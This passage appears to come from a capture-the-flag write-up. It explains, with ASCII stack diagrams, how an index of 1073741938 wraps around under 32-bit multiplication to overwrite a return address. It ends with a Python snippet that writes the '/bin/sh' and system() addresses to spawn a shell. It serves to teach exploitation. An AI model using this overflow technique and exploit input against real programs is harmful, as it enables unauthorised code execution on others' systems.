 ```

Memory Access Pattern:
1073741938 * 4 = 4294967752

+------------------------+
| return address        | <- After overflow, we write here!
+------------------------+
|                       |
|    Memory Space       |
|                       |
+------------------------+
| array[???]            | <- Too big number wraps around
+------------------------+
| array[2]              |
| array[1]              |
| array[0]              |
+------------------------+

Like a circle:
[0]->[1]->[2]->...->MAX->WRAP BACK TO START!
```

4. Final Result

```
When we use index 1073741938:
+------------------------+
| return address        | <- We reach here because:
+------------------------+   1073741938 * 4 = 456 (after overflow)
|                       |   456/4 = 114
|                       |   And 1073741938 % 3 = 1 (passes check!)
|                       |
+------------------------+
| array[...]            |
+------------------------+
| array[2]              |
| array[1]              |
| array[0]              |
+------------------------+

```

**Final Exploit:**

```python
# Store "/bin/sh" string
store_cmd = "store\n"
store_cmd += "4160264172\n"    # 0xf7f897ec ("/bin/sh")
store_cmd += "116\n"           # Index not multiple of 3

# Store system() address
store_cmd += "store\n"
store_cmd += "4159090384\n"    # 0xf7e6aed0 (system)
store_cmd += "1073741938\n"    # Calculated index

store_cmd += "quit\n"
```
